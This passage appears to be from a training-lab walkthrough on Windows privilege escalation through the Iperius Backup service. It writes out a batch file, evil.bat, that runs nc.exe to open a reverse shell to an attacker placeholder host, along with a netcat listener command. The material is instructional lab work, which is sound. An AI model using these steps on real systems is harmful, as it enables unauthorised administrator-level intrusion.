 Installed services: the wmic service list command will list services installed on the target system

In a real engagement, you should follow the more extensive list of commands provided in our Windows Privilege Escalation Room.

### Exploitation

The Iperius Backup Service suffers from a privilege escalation vulnerability. McSkidy could use it to elevate her privileges on the system. When Iperius Backup is installed as a service, it can be configured to run backup tasks with administrator privileges even if the current user has a lower privilege level.


Let's explore the exploitation steps:

1) Create a new backup task: The task itself is not important. You can set the backup path as C:\Users\McSkidy\Documents

2) Set the destination: From the destination tab, you can set the location where the backup will be written. Again, this is not important; you can set it to C:\Users\McSkidy\Desktop

3) Other processes: The "other processes" tab is important. As you can see, this gives us the option to set a program to run before or after every backup process. As the backup process is ran with administrator privileges, any program or external file configured here will be ran with administrator privileges. To exploit this, we will create a simple bat file and set it to run before the backup.


The .bat file will launch a shell using the nc.exe utility (conveniently located at C:\Users\McSkidy\Downloads\nc.exe). Launch the Notepad text editor and enter the following lines of code.

```
@echo off

C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe

```


You will need to replace "ATTACK_IP" with your attacking machine's IP address; we recommend starting the AttackBox (blue button at the top of this page).


You can save the file as evil.bat on the desktop of the target system (MACHINE_IP) and select it by enabling the "run a program or open external file" option. Click OK, and you should see a backup job named "documents" on the Iperius dashboard.


4) Launch a listener: The evil.bat file will launch cmd.exe and connect back to our attacking machine on port 1337. We should have a listener ready to accept this incoming connection. You can launch ncon your attacking machine with the `nc -nlvp 1337` command.


5) Run as service: Right-click on the "document" backup job previously created and select the "Run backup as service option".


6) Have a shelly Christmas! Within a minute or so, you should see an incoming connection on your attack



